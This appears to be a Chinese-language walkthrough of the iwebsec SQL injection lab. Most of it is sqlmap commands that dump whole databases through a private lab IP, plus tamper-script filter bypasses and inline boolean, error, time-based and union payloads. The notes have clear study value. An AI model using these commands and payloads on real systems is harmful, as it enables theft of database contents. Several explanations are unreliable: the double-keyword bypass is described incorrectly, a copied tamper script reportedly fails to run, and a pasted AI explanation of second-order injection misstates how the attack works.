

## MySQL 数字型 SQLi

```
 都是数字型了，那还说啥，开扫
python  sqlmap.py  -u http://192.168.126.138/sqli/01.php?id=1
```

### 1. **SQL注入漏洞类型**:

- **Boolean-based blind (布尔盲注)**: `id` 参数可以通过布尔逻辑判断是否存在漏洞。例如，`id=(SELECT (CASE WHEN (8634=8634) THEN 1 ELSE (SELECT 9808 UNION SELECT 7169) END))` 这个 payload 会触发一个条件判断，从而确定数据库是否存在注入漏洞。
- **Error-based (基于错误的注入)**: 通过触发 MySQL 错误来获取信息，payload 如：`id=1 AND (SELECT 9556 FROM(SELECT COUNT(*),CONCAT(0x7171627171,(SELECT (ELT(9556=9556,1))),0x7162626b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)`。
- **Time-based blind (时间盲注)**: 通过让查询延迟一定时间来确认是否存在漏洞。例如：`id=1 AND (SELECT 8118 FROM (SELECT(SLEEP(5)))mzPa)`，这里会让查询延迟 5 秒。
- **UNION query (联合查询注入)**: `id=1 UNION ALL SELECT NULL,NULL,CONCAT(...)` 表示通过联合查询提取数据。

### 2. **漏洞验证**:

sqlmap 已经确认了 **id** 参数存在多个注入点，且能够利用这些注入点执行不同类型的攻击，比如：

- **Boolean-based blind**: 基于布尔值的盲注。
- **Error-based**: 基于错误的注入，可能通过错误消息泄露信息。
- **Time-based blind**: 通过时间延迟判断漏洞。
- **Union query**: 通过联合查询注入，提取数据库内容。

### 3. **信息泄露**:

- **目标数据库**：MySQL，版本 >= 5.0。
- **操作系统**：Linux CentOS 6。
- **Web 应用技术**：PHP 5.2.17 和 Apache 2.2.15。

```
python sqlmap.py -u http://192.168.126.138/sqli/01.php?id=1 --dbs  爆库
available databases [3]:
[*] information_schema
[*] iwebsec
[*] test
```


```
python sqlmap.py -u http://192.168.126.138/sqli/01.php?id=1 -D iwebsec --tables
Database: iwebsec
[4 tables]
+-------+
| user  |
| sqli  |
| users |
| xss   |
+-------+
```


```
python sqlmap.py -u http://192.168.126.138/sqli/01.php?id=1 -D iwebsec -T user --columns
```


```
python sqlmap.py -u http://192.168.126.138/sqli/01.php?id=1 -D <数据库名> -T <表名> -C <列名1>,<列名2> --dump
```


同时爆所有

```
python sqlmap.py -u http://192.168.126.138/sqli/01.php?id=1 --dump-all
```


# MySQL 字符型 SQLi

### 依旧爆所有

```
python sqlmap.py -u http://192.168.126.138/sqli/02.php?id=1 --dump-all
```

没爆成功，说明不是一般字符型，可能加了转义，需要宽字节

```
python sqlmap.py -u "http://192.168.126.138/sqli/02.php?id=1" --dump-all --batch --tamper=unmagicquotes --level=5 --risk=3
```


# MySQL bool SQLi

直接梭哈

```
python sqlmap.py -u http://192.168.126.138/sqli/03.php?id=1 --dump-all
```


# MySQL sleep SQLi

```
python sqlmap.py -u http://192.168.126.138/sqli/04.php?id=1 --dump-all
睡觉注入特别慢
```


## MySQL updatexml SQLi

```
python sqlmap.py -u http://192.168.126.138/sqli/05.php?id=1 --dump-all
```


# MYSQL 宽字节SQLi

和第二题一样，不解释

```
python sqlmap.py -u "http://192.168.126.138/sqli/06.php?id=1" --dump-all --batch --tamper=unmagicquotes --level=5 --risk=3
```


# 空格过滤

```
python sqlmap.py -u "http://192.168.126.138/sqli/07.php?id=1" --dump-all --tamper=space2comment
```


# 大小写过滤

```
python sqlmap.py -u "http://192.168.126.138/sqli/08.php?id=1" --dump-all --tamper=randomcase
```


# 双写关键字绕过

#### shadowwolf大神的脚本：

把这个文件拷贝到sqlmap的tamper目录下重名名为doublewords.py

```
#!/usr/bin/env python
'''
sqlmap 双写绕过
by:shadowwolf
'''
from lib.core.compat import xrange
from lib.core.enums import PRIORITY
 
__priority__ = PRIORITY.LOW
 
def dependencies():
    pass
 
def tamper(payload, **kwargs):
    payload= payload.replace('select' , 'selselectect')
    retVal=payload
    return retVal

```

？？？？？？？无法运行，你是鸡毛大神啊

```
python sqlmap.py -u "http://192.168.126.138/sqli/09.php?id=1" --dump-all --tamper=doublewords
```

双写关键字绕过的思路是通过将 SQL 关键字写成两次，使其能够通过防火墙的过滤机制。例如：

- 将 `SELECT` 转换为 `SELEC T`（分开写）
- 将 `UNION` 转换为 `UN ION`（分开写）

手动注入，双写绕过

```
?id=-1 union seselectlect 1,2,database()
```


## 双重url编码绕过

```
python sqlmap.py -u "http://192.168.126.138/sqli/10.php?id=1" --dump-all --batch --tamper=chardoubleencode
```


# 十六进制编码绕过

```
python sqlmap.py -u "http://192.168.126.138/sqli/10.php?id=1" --dump-all --batch --tamper=hex2char
```




# 等价函数替换过滤

```
python sqlmap.py -u "http://192.168.126.138/sqli/10.php?id=1" --dump-all --batch --tamper=equaltolike
```


# MySQL二次注入


#### 账号信息会存储在数据库里面，通过邮箱可以找回账号密码，有点存储xss的感觉


还真的是，可以考虑存储xss，但是这题是sql注入

我们现在假如想获取zhf用户的密码

那么我们注册用户名填zhf'#,密码填123，邮箱填zhf

通过邮箱找回 ，邮箱输入zhf

得到

您的用户名是 zhf

您的密码是 zhf

通过zhf'#,获取了zhf的账号密码

没明白，让ai解释一下


### 情景重现

我们一步一步模拟攻击的过程，详细解析 SQL 执行过程。

#### 1. **注册过程中的注入**

在注册时，攻击者输入了如下内容：

- **用户名**：`zhf' #`
- **密码**：`123`
- **邮箱**：`zhf@example.com`

注意：用户名 `zhf' #` 末尾的 `' #` 符号是关键。这个 `'` 会让 SQL 查询被截断，`#` 会让 SQL 后面的内容成为注释，忽略掉。

假设后端原始的 SQL 查询是这样的：

```sql
INSERT INTO users (username, password, email) VALUES ('<username>', '<password>', '<email>');
```

那么，经过注入后，生成的 SQL 查询可能变成：

```sql
INSERT INTO users (username, password, email) VALUES ('zhf' #', '123', 'zhf@example.com');
```

- `zhf' #` 使得 SQL 查询变成非法的 SQL，`#` 会将后面的内容作为注释，因此 SQL 会变成：

```sql
INSERT INTO users (username, password, email) VALUES ('zhf', '123', 'zhf@example.com');
```

这条 SQL 语句成功插入了一个用户名为 `zhf`、密码为 `123`、邮箱为 `zhf@example.com` 的用户记录到数据库中。

#### 2. **找回密码过程**

然后，当攻击者通过 **邮箱** 找回密码时，输入的邮箱是 `zhf@example.com`，后端会执行类似下面的查询：

```sql
SELECT username, password FROM users WHERE email = '<user_email>';
```

将用户的邮箱填入，假设查询变为：

```sql
SELECT username, password FROM users WHERE email = 'zhf@example.com';
```

数据库查找邮箱为 `zhf@example.com` 的用户，并返回 **用户名** 和 **密码**。

#### 3. **恶意用户名注入的效果**

在你提供的情境下，攻击者注册时输入的用户名是 `zhf' #`。这个恶意的 `#` 将 SQL 语句后面的部分注释掉，导致后续的查询忽略了原本应该进行的严格检查。换句话说，攻击者通过用户名注入，成功绕过了原本的查询逻辑。最终，数据库查找结果可能会返回 **`zhf`** 作为用户名，**`zhf`** 作为密码（假设数据库中没有其他用户）。

#### 4. **执行的实际 SQL 语句**

为了清楚地说明发生了什么，假设后端查询数据库的 SQL 语句如下：

```sql
SELECT username, password FROM users WHERE email = 'zhf@example.com';
```

这条 SQL 查询在邮箱 `zhf@example.com` 对应的用户数据存在时，返回用户名和密码。但由于 **`zhf' #`** 这个恶意用户名已经被插入到数据库中，当后端查询数据库时，攻击者利用 **邮箱找回密码** 功能，通过邮箱获取到用户名 `zhf` 和密码 `zhf`。

如果用户名和密码查询字段返回的是数据库里的数据，那么攻击者得到了 **`zhf`** 作为用户名，**`zhf`** 作为密码。

